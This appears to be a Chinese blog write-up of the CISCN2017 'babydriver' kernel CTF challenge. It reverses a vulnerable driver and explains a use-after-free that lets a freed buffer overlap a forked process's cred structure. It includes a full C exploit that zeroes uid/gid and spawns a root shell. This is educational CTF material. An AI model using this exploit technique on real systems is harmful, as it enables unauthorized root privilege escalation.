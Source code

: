 ```yaml
---
layout: post
title:  "kernel题目1-CISCN2017-babydriver"
date:   2019-09-24 13:54:00
categories: pwn
tags: kernel
excerpt: CISCN2017-babydriver
mathjax: true
---
```


* content
{:toc}

### 0x00 逆向分析

#### 1. 解压镜像

压缩包中包含如下
`boot.sh  bzImage  rootfs.cpio`

```
qemu-system-x86_64 -initrd rootfs.cpio -kernel bzImage -append 'console=ttyS0 root=/dev/ram oops=panic panic=1' -monitor /dev/null -m 64M --nographic  -smp     cores=1,threads=1 -cpu kvm64,+smep
```

把 -enable-kvm 去掉之后正常启动起来了

解压rootfs.cpio

```
mkdir core
cd core
mv ../rootfs.cpio rootfs.cpio.gz
gunzip ./rootfs.cpio.gz
cpio -idmv < rootfs.cpio

```

init 脚本中发现
`insmod /lib/modules/4.4.72/babydriver.ko`

#### 2. 逆向驱动文件

1. 功能分析

* babyioctl 函数 : babyioctl(fd,command,arg) 判断command ==65537 时执行如下为device_buf 重新分配内存, kmalloc的size由arg控制

```
kfree(babydev_struct.device_buf);
babydev_struct.device_buf = (char *)_kmalloc(v4, 37748928LL);
babydev_struct.device_buf_len = v4;
```

* babyrelease: 释放device_buf
* babyopen: 填充device_buf  size=64 
* babywrite: copy_from_user(babydev_struct.device_buf, buffer, v4);
* babyread: copy_to_user(buffer, babydev_struct.device_buf, v4);


2. 漏洞分析
babydev_struct是全局的，多次打开设备时，会覆盖babydev_struct。同理一个设备 free babydev_struct 过后，此时另一个设备依然可以向此处写入数据。因此造成UAF漏洞。

### 0x01 方法1 UAF利用cred
利用思路：
先打开两次设备/dev/babydev,得到两个文件描述符fd1和fd2
* fd1中申请堆块为0x8a,和cred结构一样大(查看源码或编译一个模块得到)
* 释放fd1，此时调用fork，新进程请求空间存放cred结构，正好得到了之前释放的空间，但UAF漏洞导致此时依然可以通过fd2往这段空间写值
* 使用fd2 写入足够多的0 将uid，gid都设置为0即可

cred结构定义在cred.h中 
kuid_t,kgid_t 可以查到都是4个字节

```
struct cred {
	atomic_t	usage;
#ifdef CONFIG_DEBUG_CREDENTIALS
	atomic_t	subscribers;	/* number of processes subscribed */
	void		*put_addr;
	unsigned	magic;
#define CRED_MAGIC	0x43736564
#define CRED_MAGIC_DEAD	0x44656144
#endif
	kuid_t		uid;		/* real UID of the task */
	kgid_t		gid;		/* real GID of the task */
	kuid_t		suid;		/* saved UID of the task */
	kgid_t		sgid;		/* saved GID of the task */
	kuid_t		euid;		/* effective UID of the task */
	kgid_t		egid;		/* effective GID of the task */
	kuid_t		fsuid;		/* UID for VFS ops */
	kgid_t		fsgid;		/* GID for VFS ops */
	unsigned	securebits;	/* SUID-less security management */
	kernel_cap_t	cap_inheritable; /* caps our children can inherit */
	kernel_cap_t	cap_permitted;	/* caps we're permitted */
	kernel_cap_t	cap_effective;	/* caps we can actually use */
	kernel_cap_t	cap_bset;	/* capability bounding set */
	kernel_cap_t	cap_ambient;	/* Ambient capability set */
#ifdef CONFIG_KEYS
	unsigned char	jit_keyring;	/* default keyring to attach requested
					 * keys to */
	struct key __rcu *session_keyring; /* keyring inherited over fork */
	struct key	*process_keyring; /* keyring private to this process */
	struct key	*thread_keyring; /* keyring private to this thread */
	struct key	*request_key_auth; /* assumed request_key authority */
#endif
#ifdef CONFIG_SECURITY
	void		*security;	/* subjective LSM security */
#endif
	struct user_struct *user;	/* real user ID subscription */
	struct user_namespace *user_ns; /* user_ns the caps and keyrings are relative to. */
	struct group_info *group_info;	/* supplementary groups for euid/fsgid */
	struct rcu_head	rcu;		/* RCU deletion hook */
};
```

编写exp如下
```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <stropts.h>
#include <sys/wait.h>
#include <sys/stat.h>

void main(){
    int fd1 = open("/dev/babydev",2);
    int fd2 = open("/dev/babydev",2);

    ioctl(fd1,0x10001,0x8a);
    close(fd1);
    int pid = fork();
    if(pid<0){
        printf("fork error");
        exit(0);
    }
    else if(pid==0){
        char zeros[30] = {0};
        write(fd2,zeros,28);
        if(getuid() ==0){
            puts("[+] get root");
            system("/bin/sh");
            exit(0);
        }
    }
    else
    {
        wait(NULL);
    }
    close(fd2);
    return 0;
}
```

刚开始编写程序时一定不要忘记写全头文件，尽量不出现函数未定义的情况，否则会导致程序调用到不一样的函数

编译程序
`gcc exp.c -o exp -static`
重打包为文件镜像
`find . | cpio -o --format=newc > ../rootfs.img`


接着让我们调试看看为什么会拿到shell,关注的点在于write操作写入到了哪里,cred 结构又覆盖了哪些


fd1申请0x8a之后
q
write前后对比

运行结果如下


编译模块获取cred结构大小
还有一个问题是如何知道cred的大小，一种方法是看源码，这种方法比较慢，还容易出错。另一种方法是编译一个内核模块来查看：

```
#include <linux/init.h>
#include <linux/module.h>
#include <linux/cred.h>

MODULE_LICENSE("Dual BSD/GPL");

static int hello_init(void)
{
    printk(KERN_ALERT "sizeof cred: %d", sizeof(struct cred));
    return 0;
}

static void hello_exit(void)
{
    printk(KERN_ALERT "exit module!");
}

module_init(hello_init);
module_exit(hello_exit);
```

Makefile：

```
obj-m := cred_size.o
KERNELBUILD := /lib/modules/$(shell uname -r)/build

modules:
    make -C $(KERNELBUILD) M=$(CURDIR) modules
clean:
    make -C $(KERNELBUILD) M=$(CURDIR) clean
```


### 方法2：使用tty 结构


### 参考链接

http://pwn4.fun/2017/08/15/Linux-Kernel-UAF/
https://www.anquanke.com/post/id/86490

kernel ROP
https://www.cnblogs.com/Joe-Z/p/5651812.html

